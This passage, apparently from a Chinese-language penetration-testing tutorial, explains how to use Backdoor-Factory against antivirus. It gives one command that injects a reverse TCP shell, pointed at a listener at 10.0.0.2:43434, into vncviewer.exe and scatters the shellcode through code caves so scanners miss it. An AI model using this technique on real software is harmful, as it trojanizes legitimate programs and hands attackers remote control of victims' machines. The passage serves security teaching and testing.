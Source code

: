 ![Using Backdoor-Factory to Evade Antivirus](img/image00961.jpeg)

运行后门工厂并在`43434`端口的`10.0.0.2`上创建一个具有侦听器的远程 shell 的代码如下。跳洞选项将代码散布在可执行文件的空白处，进一步混淆防病毒扫描：

```
backdoor-factory –cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp

```

如果您在 shell 代码选择中出错（如上所述），应用将显示您的选择：

![Using Backdoor-Factory to Evade Antivirus](img/image00962.jpeg)
